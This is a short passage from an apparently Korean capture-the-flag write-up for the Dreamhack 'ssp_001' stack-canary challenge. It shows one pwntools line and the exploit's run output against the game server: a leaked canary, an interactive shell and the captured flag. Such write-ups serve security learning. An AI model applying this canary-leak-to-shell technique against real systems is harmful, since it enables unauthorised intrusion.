 ```python
p.interactive()
```


<br>
<br>


### 익스플로잇

```bash
ion  ~/wargame/dreamhack/pwnable/ssp_001  python3 remote.py 2> /dev/null
[+] Opening connection to host3.dreamhack.games on port 9485: Done
[*] '/home/ion/wargame/dreamhack/pwnable/ssp_001/ssp_001'
   Arch:     i386-32-little
   RELRO:    Partial RELRO
   Stack:    Canary found
   NX:       NX enabled
   PIE:      No PIE (0x8048000)
[+] canary: 0x40ef4e00
[*] Switching to interactive mode
$ ls
flag
run.sh
ssp_001
$ cat flag
DH{00c609773822372daf2b7ef9adbdb824}
```
